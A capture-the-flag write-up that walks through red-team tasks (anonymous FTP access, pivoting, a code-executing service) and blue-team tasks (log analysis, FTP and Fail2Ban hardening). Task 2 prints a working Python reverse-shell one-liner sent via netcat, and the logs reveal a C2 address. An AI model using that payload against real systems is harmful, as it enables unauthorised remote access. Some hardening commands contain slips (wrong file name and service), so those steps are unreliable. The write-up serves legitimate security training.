# The Purple Road

This challenge is a mixture of Red and Blue team tasks ranging from log analysis to service exploitation.

## Background

You have been hired to perform Red Team and Blue Team tasks in the provided environment. Your client has a running fileserver on the network and wants you to test its security defenses and increase other defenses. They also would like you to investigate the cause of a recent attack on their system.

### Task 1 - Red Team

This task requires gaining access to a fileserver and retrieving a token from said fileserver. No username or password is provided for the server.

Initially, my first thought is to perform recon on the filerserver, so lets run an nmap scan:

`nmap -sV fileserver`



This reveals two services, an FTP server on port 21 and an SSH service on port 22. Let's try to log in to the ftp server.



Trying to use a generic username gives us an error. `530 This FTP server is anonymous only`. A little research later, and I found out I can connect to the server using the username `anonymous` with no password.



We're in. Using `ls` we can list the files on the server.



There is a token directory and an upload directory. (Make sure to pay attention to filetypes! I spent way too long thinking `/token` was a file, not a directory). Let's try to `cd` into `/token` and see what files are in there.



There's one file, named `token.txt`. I wonder what could be in there? I'll use the `less` command to print its contents.



There's the token! Task 1 complete. There also seems to be a username and password in this file as well, lets keep note of them.

### Task 2 - Red Team

This task continues on from Task 1, and requires us to retrieve a token from an unknown, hidden server.

Using the credentials we discovered from `token.txt`, I'm going to try to ssh into the fileserver.



That worked! Now, since we're trying to find a new hidden server, I'm going to use my access to the fileserver to see if we can see any other networks that the fileserver is connected to that we can pivot into. I'm going to use the command `ip a` to see what networks we're connected to.



There's a new network in here that we haven't seen before, `10.2.188.169/26`. Let's scout this network to see what services are running.



This is interesting, there's a host with the word "hidden" in its name at `10.2.188.198`. It's running both an ssh service on port 22 and an http-proxy service on port 8080. I'm going to investigate the http-proxy to see what I can find. (Disclaimer: I got stuck here and had to consult the solution guide for hints to complete the rest of this task)

Using netcat, we can try to connect to the service.



The service is expecting us to send it a python script. Maybe it will execute the python code we send it!

Using two terminals, both ssh'd into the fileserver, I'll set up reverse shell handler using netcat and send a python payload to the http-proxy server. This should give us a reverse shell on the hidden server, allowing us to run arbitrary commands and hopefully retrieve our token.

#### Terminal 1

`nc -lvnp 4444`



#### Terminal 2

`(echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("fileserver",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh"])'; echo EOF) | nc 10.2.188.198 8080`



If we go back to terminal 1, we see that a connection was received.



Let's explore and find that token.



Got it! We successfully pivoted from the fileserver and got a reverse shell on the hidden server, allowing us to grab the hidden token.

### Task 3 - Blue Team

Now we're switching gears and working as the blue team. We need to comb through some logs and discover some malicious activity!

#### Q1

This first task requires us to find out which user successfully logged in from `172.19.0.5` on port 2222. First, lets ssh into the logserver and find where the logs are being stored. I've logged into `logserver` using the provieded credentials and ran the command: `ls /var/log`



Looks like we have a lot of logs to go through! I'm going to use grep to search through every log at once, looking for any mentions of port 2222.

`cat *.log | grep 2222`



One of these lines stands out among the rest. It looks like someone was able to log in to `sudouser` via `172.19.0.5` on port 2222. Entering the answer `sudouser` on `http://grader` gives us the token we are looking for.

#### Q2

Again we're looking through system logs, this time we need to figure out which command the attacker ran with `sudo`. Let's search through these logs again.

`cat *.log | grep sudo`



Once again, using `grep`, we are able to search through all the logs to pinpoint our answer. It looks as though the attacker attempted to run the command `/usr/bin/nano /etc/passwd` using `sudo`. They're trying to access the passwords file! 

Entering that command into `http://grader` gives us our token for this task.

#### Q3

For this question we need to figure out where the attacker connected for C2 (Command and Control) from. Let's use the same `grep` workflow we've been using to see if it can help us here.

In the question, we were given an example of what a C2 domain might look like - `example.com:1234`. Given this format, I'm going to search for a specific string to reduce the noise in my `grep` output.

`cat *.log | grep .com:`



Look at that! We got exactly what we are looking for, the C2 address that the attacker connected to is `evil.corp.com:4444`. Entering this answer into `http://grader` gives us the token for this task.

#### Q4

Now we need to figure out which Common Vulnerability and Exposure (CVE) the attacker used to perform privilege escalation. Using `grep` again, we can easily find the answer.

`cat *.log | grep CVE`



The attacker used CVE-2021-4034. A quick google search shows some information about this exploit. It's commonly known as "PwnKit" and targets Polkit's `pkexec` utility to perform local privilege escalation.

Entering this into `http://grader` gives us the token we need for this question.

#### Q5

For the last question of Task 3, we need to find the value of the President's Cup token in the logs. 

`cat *.log | grep PCCC`



Got it! Onto to Task 4.

### Task 4 - Blue Team

Using what we found earlier during our Read Team exercises, we need to harden `fileserver` to make sure it can't be exploited again!

First, we need to fix the misconfiguration that allowed the Red Team into the ftp server. We need to disable the anyonymous login.

Let's ssh into `fileserver` and edit the ftp configuration. The ftp service configuration file is located at `/etc/vsftpd.conf`.



On the third line down, we see `anonymous_enable=YES`. Let's switch that to NO.



Now we can restart the ftp service with the command `sudo service vsftpd restart`. Now if we try to connect to the ftp server anonymously, we will be denied access!



Our next goal is to enable Fail2Ban for vstfpd, which will protect our ftp service.

Let's look through `/etc/fail2ban` to see if there any interesting files to look at.



`jail.local` looks interesting. Let's look at it.



It looks like it's already monitoring vsftpd. Interesting. I'm going to try starting the service.

`sudo service vsftpd start`



Hm, we get a weird error when trying to start the service. It can't find a log file for `sshd jail`. After some digging, I found that the file `/etc/fail2ban/jail.d/defaults-debian.conf` was set up for sshd monitoring, but did not define a log path. I'm going to give it the path `/var/log/sshd.log` can see if that fixes the service. We will need to create the file beforehand so the service can see it.

`sudo touch /var/log/sshd.conf`



`sudo service vsftpd start`



The service is up! Fail2Ban is now monitoring and protecting our ftp service.

Now we have to make sure there are no world-writable files in the `/home` directory. 

If we traverse to `/home` and run `ls -la` we can see all the files in the directory and their permissions.



It looks like there are only directories here. Let's search through the whole `/home` directory to see if we can find any. This command will find any file in `/home` with the "others-write bit" set. "Others-write" is another way to say "world-writable".

`sudo find /home -type f -perm -0002`



Only one file is returned. Lets look at its permissions.



Sure enough, the others-write bit is set. Let's change that.

`sudo chmod 664 /home/purple.token.txt`

Now if we run the find command again, nothing should be returned.

`sudo find /home -type f -perm -0002`



Just like we thought. Now, nothing in the `/home` directory is world-writable!

Let's go to `http://grader` to see how we did and retrieve our tokens.



We passed them all! We successfully carried out Purple Team operations by infiltrating vulnerable servers and services, tracing attacker behavior through logs, and remediating vulnerabilites by hardening configurations.